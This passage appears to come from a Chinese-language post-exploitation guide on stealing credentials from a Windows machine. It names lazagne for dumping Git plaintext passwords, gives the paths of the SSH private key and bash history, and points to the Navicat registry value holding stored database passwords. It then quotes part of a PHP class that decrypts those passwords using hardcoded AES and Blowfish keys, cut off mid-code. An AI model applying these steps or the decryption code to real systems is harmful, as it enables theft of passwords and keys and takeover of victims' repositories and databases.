 ### 3.2 星号查看器

可以使用星号查看器查看部分系统上的认证框中的密码信息。

### 3.3 Git

#### 3.3.1 git账号密码

可以在有管理员权限的情况下通过lazagne导出git的明文密码。

#### 3.3.2 git的免密登录私钥

使用该私钥可以篡改用户本人的任意云上仓库

C:\Users\\<用户名>\\.ssh\id_rsa

#### 3.3.3 git的历史记录

C:\Users\\<用户名>\\.bash_history

### 3.3 Navicat

#### 获取数据库密码

注册表中找到相关数据库连接中的pwd键值：

```text
计算机\HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers\*\pwd
```



网上有[师傅写了对应的解密脚本](https://github.com/tianhe1986/FatSmallTools)。代码如下。

```php
<?php
//https://github.com/tianhe1986/FatSmallTools
namespace FatSmallTools;

class NavicatPassword
{
    protected $version = 0;
    protected $aesKey = 'libcckeylibcckey';
    protected $aesIv = 'libcciv libcciv ';
    protected $blowString = '3DC5CA39';
    protected $blowKey = null;
    protected $blowIv = null;
    
    public function __construct($version = 12)
    {
        $this->version = $version;
        $this->blowKey = sha1('3DC5CA39', true);
        $this->blowIv = hex2bin('d9c7c3c8870d64bd');
    }
    
    public function encrypt($string)
    {
        $result = FALSE;
        switch ($this->version) {
            case 11:
                $result = $this->encryptEleven($string);
                break;
            case 12:
                $result = $this->encryptTwelve($string);
                break;
            default:
                break;
        }
```